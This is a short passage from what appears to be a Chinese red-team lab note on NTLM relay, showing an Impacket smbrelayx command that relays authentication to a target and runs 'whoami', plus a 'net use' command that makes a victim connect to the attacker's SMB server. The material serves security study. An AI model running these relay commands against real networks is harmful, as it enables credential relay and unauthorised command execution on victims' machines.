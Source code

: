 ![](../../../../../assets/img/Security/RedTeam/OS安全/实验/NTLM中继/6.png)

---

#### Impacket smbrelayx

```
impacket-smbrelayx -h <被攻击ip> -c whoami
```

![](../../../../../assets/img/Security/RedTeam/OS安全/实验/NTLM中继/8.png)

让任意主机访问这个攻击者精心构造好的 SMB 服务器：
```
net use \\<kali IP>
```
